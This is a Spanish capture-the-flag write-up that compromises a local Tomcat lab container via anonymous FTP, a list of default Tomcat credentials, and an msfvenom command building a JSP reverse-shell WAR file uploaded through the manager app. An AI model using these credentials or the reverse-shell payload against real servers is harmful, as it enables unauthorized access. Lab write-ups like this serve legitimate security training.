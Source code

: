 Lo primero es desplegar la máquina virtual con el siguiente comando.
bash auto_deploy.sh pn.tar
![[Pasted image 20240604212012.png]]

Copiamos la ip y realizamos el escaneo de puertos con este comando.
sudo nmap -sSCV -n -Pn --min-rate 5000 -p- --open 172.17.0.2 

![[Pasted image 20240604212536.png]]

Como podemos observar tenemos abiertos tanto los puertos 21 y 8080

Con lo cual podemos observar que el puerto 21 tiene el servicio ftp.
Vamos a establecer conexión ftp.

![[Pasted image 20240604213826.png]]

Ingresamos el comando (ls) para comprobar el contenido del lugar.
Vemos que tiene un archivo llamado tomcat.txt
![[Pasted image 20240604213937.png]]

Descargamos el archivo tomcat.txt mediante el comando get.
![[Pasted image 20240604214420.png]]

Ahora vamos a comprobar la pagina que tiene el servidor mediante el comando whatweb [IP]
![[Pasted image 20240604214902.png]]
Vemos que aloja un servidor web, colocamos en el buscador la ip que en este caso sería 172.17.0.2:8080
![[Pasted image 20240604215024.png]]

En la página web tenemos un apartado con un link para acceder al manager webapp.
![[Pasted image 20240604215807.png]]

Hacemos click en este link.
![[Pasted image 20240604215930.png]]

Podemos ver que nos salta este formulario para introducir un usuario con su clave.
![[Pasted image 20240604220004.png]]

En un principio debemos probar con las contraseñas predeterminadas de Tomcat
- admin:admin
- tomcat:tomcat
- admin:
- admin:s3cr3t
- tomcat:s3cr3t
- admin:tomcat
![[Pasted image 20240604220547.png]]
En este caso fue usuario (tomcat) y password(s3cr3t)

Una vez dentro debemos crear un reverse shell con un archivo .war para conseguir el acceso a la máquina, para ello contamos con un comando para generar dicho archivo mediante el comando msfvenom.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
![[Pasted image 20240604222812.png]]
Vemos como se ha creado el archivo correctamente.

Ahora vamos a ponernos en escucha en el puerto 443
![[Pasted image 20240604221600.png]]

Ahora vamos a subir el archivo que creamos.
![[Pasted image 20240604221703.png]]

Podemos comprobar que se ha subido correctamente

![[Pasted image 20240604222323.png]]

¡Ya estamos dentro!